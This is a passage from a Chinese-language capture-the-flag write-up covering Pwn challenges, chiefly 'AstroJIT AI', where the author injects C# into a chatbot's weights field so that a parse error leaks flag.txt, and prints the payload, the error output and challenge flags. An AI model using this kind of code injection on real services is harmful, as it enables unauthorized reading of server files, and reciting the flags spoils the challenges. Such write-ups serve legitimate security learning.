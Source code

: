 ```python
if __name__ == "__main__":
    main()
```

### Exploit

:spoiler[`sun{ARM64_shEl1c0de_!s_pr3ttY_n3a7_dOnT_y0u_thInk?}`]

# Pwn

这个方向真的是 Pwn 吗，怎么题目都那么奇怪？？

`HAL9000` 是一道贼恶心的 mov obfuscated 的题，`demovfuscator` 了以后和原先也区别不大，还是一堆 `mov` 指令，坐牢啊……

`Space Is Less Than Ideal` 和 `Space Is My Banner` 感觉这两道更像 Misc，与 Pwn 一点关系都没有……

`AstroJIT AI` 是代码审计吧，也和 Pwn 没关系啊……

唯一一个 heap 我还因为没怎么学过堆，做不来……

`Clone Army` 没细看，后面有空复现吧。

## AstroJIT AI

### Information

- Category: Pwn
- Points: 500

### Description

> AstroJIT AI, your new general-purpose chatbot for the future!

### Write-up

测试格式化字符串，报错：

<center>
  <img src="https://ghproxy.net/https://raw.githubusercontent.com/CuB3y0nd/picx-images-hosting/master/.1ovt15ht5d.avif" alt="" />
</center>

问 AI，可以注入代码，直接用 `{ int.Parse(System.IO.File.ReadAllText("flag.txt")), 0, 0 }`，由于 flag 内容不是整数，报错信息直接把 flag 输出了。

```csharp showLineNumbers=false
Weights: { int.Parse(System.IO.File.ReadAllText("flag.txt")), 0, 0 }
{ int.Parse(System.IO.File.ReadAllText("flag.txt")), 0, 0 }
MethodInvocationException: /app/evil_corp_ai.ps1:424
Line |
 424 |              $weights = [Two.Second.Scholars.Mass.And.Partialities.Wei …
     |              ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
     | Exception calling "CalculatePrecompiledWeights" with "0" argument(s):
     | "The input string
     | 'sun{evil-corp-one-uprising-at-a-time-folks-may-be-evil-but-do-not-get-burnt-out-just-burn-the-building-down-before-you-go-we-need-the-insurance-money} ' was not in a correct format."
```
